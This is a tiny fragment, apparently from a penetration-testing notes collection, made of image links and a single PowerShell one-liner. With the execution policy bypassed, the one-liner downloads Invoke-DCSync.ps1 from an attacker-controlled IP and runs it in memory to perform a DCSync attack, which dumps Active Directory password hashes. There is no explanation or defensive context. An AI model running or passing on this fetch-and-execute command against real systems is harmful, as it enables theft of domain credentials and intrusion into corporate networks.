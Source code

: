 	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-DCSync.ps1');invoke-dcsync
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/313.png)